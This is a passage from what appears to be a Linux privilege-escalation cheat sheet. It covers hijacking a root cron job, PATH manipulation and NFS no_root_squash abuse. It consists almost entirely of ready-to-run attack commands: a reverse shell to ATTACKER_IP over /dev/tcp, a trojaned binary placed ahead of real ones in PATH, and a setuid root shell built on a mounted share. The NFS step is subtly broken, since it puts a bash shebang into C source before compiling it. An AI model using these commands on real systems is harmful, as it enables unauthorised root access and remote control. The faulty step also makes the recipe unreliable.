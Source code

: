 Example exploitation:
```bash
# If you identify a world-writable script executed by root cron job
echo '#!/bin/bash' > /path/to/script
echo 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1' >> /path/to/script
chmod +x /path/to/script
```

## PATH Exploitation

### Check Current PATH
```bash
echo $PATH
```

### Create Malicious Binary in PATH
If a script or program executes another program without specifying its absolute path:

```bash
# Create malicious version of the called program
echo '#!/bin/bash' > /tmp/program_name
echo 'id; /bin/bash' >> /tmp/program_name
chmod +x /tmp/program_name

# Add /tmp to the beginning of your PATH
export PATH=/tmp:$PATH
```

## NFS Shares

### Check NFS Configuration
```bash
# Check exports
cat /etc/exports

# Look for "no_root_squash" option
```

### Exploiting NFS with no_root_squash
From your attacker machine:
```bash
# Show available NFS shares
showmount -e target_ip

# Create mount point
mkdir /tmp/nfs

# Mount the share
mount -o rw target_ip:/shared/folder /tmp/nfs

# Create setuid root shell
echo '#!/bin/bash' > /tmp/nfs/shell.c
echo 'int main() { setuid(0); setgid(0); system("/bin/bash"); return 0; }' >> /tmp/nfs/shell.c
gcc /tmp/nfs/shell.c -o /tmp/nfs/shell
chmod u+s /tmp/nfs/shell
```
